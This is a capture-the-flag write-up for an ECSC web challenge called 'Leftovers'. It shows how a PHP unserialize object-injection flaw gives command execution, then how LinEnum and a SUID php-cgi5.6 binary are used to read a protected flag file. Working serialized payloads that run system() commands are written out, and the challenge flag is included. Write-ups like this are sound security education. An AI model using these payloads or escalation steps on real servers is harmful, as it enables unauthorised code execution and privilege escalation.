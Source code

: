 # Leftovers
Flag: `ECSC{ef9a617ce799f76035269111f29ddf61c0271435ecb2a357de07b5b0e6e41b24}`
Category: `web`
Points: `465`

## Summary
Code injection through PHP unserialize vulnerability and PHPObjectInjection,
LinEnum and privilege escalation through PHP CGI.

Send this input:
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:53:"system('/usr/bin/php-cgi5.6 /home/flavius/flag.txt');";}`

## Proof of Solving
We got an input with a placeholder that looks like a php serialized data and if
we submit some data like this
`a:3:{i:0;s:3:"Red";i:1;s:5:"Green";i:2;s:4:"Blue";}`, we get the unserialized
version.
![](./screenshots/1.png)
`a:3:{i:0;s:3:"Red";i:1;s:5:"Green";i:2;s:4:"Blue";}`

After some research, I found that I can use the PHPObjectInjection to execute
some shell code.
![](./screenshots/2.png)
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('ls');";}`

Looks like it works. After I searched through files, I found a flag.txt file in
`/home/flavius/flag.txt`, but unfortunately, we (www-data) don’t have access to
read this file so we need to escalate privileges.
![](./screenshots/3.png)
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:27:"system('ls /home/flavius');";}`

For this we’ll use LinEnum. It looked like we already had this script in /tmp at
that time so we will use that with this payload:
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:61:"system('cd /tmp;./LinEnum.sh -k flag -r report -e /tmp/ -t');";}`

In the printed output of the LinEnum, we will see that we have SUID and SGID on
`/usr/bin/php-cgi5.6`

After some trial and error, I ran the CGI with the flag.txt path as a parameter
and I got the flag:
![](./screenshots/4.png)
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:53:"system('/usr/bin/php-cgi5.6 /home/flavius/flag.txt');";}`
